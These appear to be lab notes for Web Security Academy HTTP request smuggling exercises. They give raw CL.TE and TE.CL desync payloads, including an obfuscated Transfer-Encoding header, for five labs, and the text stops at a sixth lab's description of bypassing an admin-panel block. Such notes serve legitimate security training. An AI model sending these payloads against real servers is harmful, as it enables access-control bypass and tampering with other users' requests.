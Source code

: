 ## Lab - 1: HTTP request smuggling, basic CL.TE vulnerability (P)

- This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method. To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

- send this request twice

```
POST / HTTP/1.1
Host: 0a9a0041031fbe7dc1fe13ec000c0081.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:105.0) Gecko/20100101 Firefox/105.0
Connection: keep-alive
Content-TYpe: application/x-www-urlencoded
Transfer-Encoding: chunked
Content-Length: 6

0

G
```

- front end server will accept all and back end will execute only 0 and G is left for the first request and G is appended to the second request and will get an error

---

## Lab - 2: HTTP request smuggling, basic TE.CL vulnerability (P)

- This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method. To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

```
POST / HTTP/1.1
Host: 0ae3007c043a9f14c0d3485f00be006d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Connection: alive

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

- Two `Enter` after 0 is important.

---

## Lab - 3: HTTP request smuggling, obfuscating the TE header (P)

- This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method. To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

```
POST / HTTP/1.1
Host: 0a0a00840493184ac0ff04e2006f00db.web-security-academy.net
Content-Length: 4
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: xchunked
Connection: keep-alive

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

---

# How to find

## Lab - 4: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses (P)

- This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

```
POST / HTTP/1.1
Host: 0af100d70385f333c058ad5600e2006b.web-security-academy.net
Content-Type: application/x-www-url-encoded
Content-Length: 49
Transfer-Encoding: chunked
Connection: keep-alive

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

---

## Lab - 5: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses (P)

- This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.

```
POST / HTTP/1.1
Host: 0ac700a003177acdc0485f6500160046.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

---

# How to exploit

## Lab - 6: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability (P)

- This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it. To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.
